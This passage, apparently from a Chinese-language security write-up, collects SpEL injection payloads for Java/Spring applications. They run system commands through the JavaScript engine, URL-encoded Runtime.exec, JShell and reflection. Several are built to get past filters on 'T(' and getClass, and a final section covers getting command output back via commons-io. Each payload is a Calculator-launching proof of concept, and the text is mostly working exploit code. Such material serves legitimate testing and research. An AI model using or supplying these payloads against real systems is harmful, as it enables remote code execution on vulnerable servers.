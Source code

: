 ### JavaScript 引擎 && 反射调用

```java
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"open","-a","Calculator"})))
```

### JavaScript 引擎 && URL 编码

```java
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName(\"JavaScript\").eval(T(java.net.URLDecoder).decode(\"%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%6f%70%65%6e%20%2d%61%20%43%61%6c%63%75%6c%61%74%6f%72%22%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29\")))
```

### JShell
在`JDK9`中新增的`shell`.

```java
T(SomeWhitelistedClassNotPartOfJDK).ClassLoader.loadClass("jdk.jshell.JShell",true).Methods[6].invoke(null,{}).eval('open -a Calculator').toString()
```

### 绕过 T( 过滤
`SpEL`对字符的编码时, `%00`会被直接替换为空.

```java
T%00(new)
```

### 绕过 getClass(

```java
// 这里的 15 可能需要替换为 14, 不同 jdk 版本的序号不同.
"".class.getSuperclass().class.forName("java.lang.Runtime").getDeclaredMethods()[15].invoke("".class.getSuperclass().class.forName("java.lang.Runtime").getDeclaredMethods()[7].invoke(null),"open -a Calculator")
```


## 回显
上文中讲述了如何通过`SpEL`执行系统命令, 接着来看看如何在一行`SpEL`语句中获得命令执行的回显.

### commons-io
使用`commons-io`这个组件实现回显, 这种方式会受限于目标服务器是否存在这个组件, `springboot`默认环境下都没有用到这个组件.

```java
T(org.apache.commons.io.IOUtils).toString(payload).getInputStream())
```
